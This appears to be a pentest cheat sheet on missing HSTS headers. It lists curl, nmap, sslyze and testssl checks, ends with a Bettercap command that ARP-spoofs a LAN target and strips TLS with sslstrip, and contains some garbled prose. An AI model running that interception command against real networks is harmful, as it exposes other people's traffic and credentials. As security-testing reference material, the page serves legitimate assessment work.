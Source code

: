 # HTTP Strict Transport Security

## Check List

* [ ] Review the HSTS header and its validity.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
### HTTP Strict Transport Security (Missing)
{% endstep %}

{% step %}
Access the Target URL and Inspect the Response Headers Use a tool such as **Burp Suite**, **cURL**, or **browser dev tools** to inspect the HTTP response headers The best way is to use this cheat sheet Example using cURL
{% endstep %}

{% step %}
Check for HSTS Header Confirm the absence of the following header in the server response `Strict-Transport-Security` _The best way to exploit and exploit this vulnerability is to use a cheat sheet_
{% endstep %}
{% endstepper %}

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

{% hint style="info" %}
Interface Network
{% endhint %}

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

{% hint style="info" %}
MitM on LAN
{% endhint %}

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```
